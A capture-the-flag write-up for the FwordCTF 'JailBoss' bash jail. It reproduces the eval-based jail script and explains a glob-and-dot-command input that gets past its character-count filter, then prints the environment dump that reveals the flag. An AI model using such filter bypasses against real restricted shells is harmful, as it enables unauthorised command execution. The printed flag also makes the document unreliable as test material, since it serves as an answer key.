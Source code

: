 # JailBoss
You are provided with an SSH account to server `ssh -p 2222 ctf@jailboss.fword.wtf`, and 2 files.

## `taskFword.sh`
```sh
#!/bin/bash
export FLAG="FwordCTF{REDACTED}"
echo "A useless script for a useless SysAdmin"
```

## `jail.sh`
```sh
#!/bin/bash
figlet "BASH JAIL x Fword"
echo "Welcome! Kudos to Anis_Boss Senpai"
function a(){
/usr/bin/env
}
export -f a
function calculSlash(){
	echo $1|grep -o "/"|wc -l
}
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
function calculA(){
        echo $1|grep -o "a"|wc -l
}

while true;do
read -p ">> " input ;
if echo -n "$input"| grep -v -E "^(\.|\/| |\?|a)*$" ;then
        echo "No No not that easy "
else
	pts=$(calculPoint $input)
	slash=$(calculSlash $input)
	nbA=$(calculA $input)
	if [[ $pts -gt 2 || $slash -gt 1 || $nbA -gt 1 ]];then
		echo "That's Too much"
	else
		eval "$input"
	fi
fi
done
```

When you connect to remote server you are greeted with

```
 _____                       _ 
|  ___|_      _____  _ __ __| |
| |_  \ \ /\ / / _ \| '__/ _` |
|  _|  \ V  V / (_) | | | (_| |
|_|     \_/\_/ \___/|_|  \__,_|
                               
ctf@jailboss.fword.wtf's password: 

DISCLAIMER: Please don't abuse the server or you will get banned !

Author: Kahla, Contact me for any problems; GL & HF

 ____    _    ____  _   _       _   _    ___ _            
| __ )  / \  / ___|| | | |     | | / \  |_ _| |     __  __
|  _ \ / _ \ \___ \| |_| |  _  | |/ _ \  | || |     \ \/ /
| |_) / ___ \ ___) |  _  | | |_| / ___ \ | || |___   >  < 
|____/_/   \_\____/|_| |_|  \___/_/   \_\___|_____| /_/\_\
                                                          
 _____                       _ 
|  ___|_      _____  _ __ __| |
| |_  \ \ /\ / / _ \| '__/ _` |
|  _|  \ V  V / (_) | | | (_| |
|_|     \_/\_/ \___/|_|  \__,_|
                               
Welcome! Kudos to Anis_Boss Senpai
>> 
```

And you can input commands.
We can assume that `jail.sh` is ran after connecting to server and that `taskFword.sh` is probably in the same directory.

## Method
1. Find a way to execute `taskFword.sh` to load flag to ENV
2. Call a() to execute /usr/bin/env (where already loaded flag resides)

## The script
We can see that the script asks for input.
```
read -p ">> " input ;
```

Then script checks if out input consists only of certain characters `.` `/` `:space:` `?` `a`
Those are only allowed characters.
```
if echo -n "$input"| grep -v -E "^(\.|\/| |\?|a)*$" ;then
```

Then we use defined functions
```
function calculSlash(){
	echo $1|grep -o "/"|wc -l
}
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
function calculA(){
	echo $1|grep -o "a"|wc -l
}
```

to find out number of appereances of characters `/` `.` `a`
Notice how the script is not checking counts of `:space:` or `?`
```
pts=$(calculPoint $input)
slash=$(calculSlash $input)
nbA=$(calculA $input)
```

Then we check number of appereances.
We can you maximum of 2x`.`, 1x`/` and 1x`a`
```
if [[ $pts -gt 2 || $slash -gt 1 || $nbA -gt 1 ]];then
```

If the condition is satisfied, script calls `eval` with our input.
This is a dangerous builtin command that shouldn't be used with user input.
We can potentionaly run "any" command we want with this
```
eval "$input"
```

## Exploit
How can we execute a command only with these characters `.` `/` `:space:` `?` `a`
We can't do `./taskFword.sh` because there are banned characters.
What we can do is use regex symbol `?` which is a substitute for a single character.
If you don't understand regex read about it. (You have probably used commands like `rm *`, `*` is a regex symbol meaning 'everything').

So we can try:
`./????????????`
which can resolve to
`./taskFword.sh`

Here is a catch.
When scripts evaluates function
```
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
```
with our input `./????????????` it checks for occurence of `.` which in regex means 'any character'. So the function 'returns' count `14` since we used 14 characters as our input, which stops us from evaluating our input since we are allowed to use 2 **dots** (`.`).
How can we solve this?

The solution is in
```
pts=$(calculPoint $input)
```
and respective
```
function calculPoint(){
	echo $1|grep -o "."|wc -l
}
```

The function only evaluates the first argument `$1` from our input (wchich was our entire input string so far). But we can use `:space:` to divide our input into 2 words. First word can be `.` which evaluates to count `1` since we only used 1 character and second word can be our payload `./????????????`.

Together
`. ./????????????`

This input successfuly satisfies all conditions. And bash interpreter evaluates first `.` as **dot command** (command that evaluates commands in the current execution context) and then executes the scripts that loads the FLAG into our ENVIROMENT.

## In action
```
>> . ./????????????
A useless script for a useless SysAdmin
```

Then we can simply invoke function a() to print our ENVIROMENT
```
>> a
SHELL=/opt/jail.sh
PWD=/home/ctf
LOGNAME=ctf
MOTD_SHOWN=pam
HOME=/home/ctf/
LANG=en_US.UTF-8
FLAG=FwordCTF{BasH_1S_R3aLLy_4w3s0m3_K4hLaFTW}
TERM=xterm-256color
USER=ctf
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
SSH_TTY=/dev/pts/2
BASH_FUNC_a%%=() {  /usr/bin/env
}
_=/usr/bin/env
```

## The Flag
**FwordCTF{BasH_1S_R3aLLy_4w3s0m3_K4hLaFTW}**
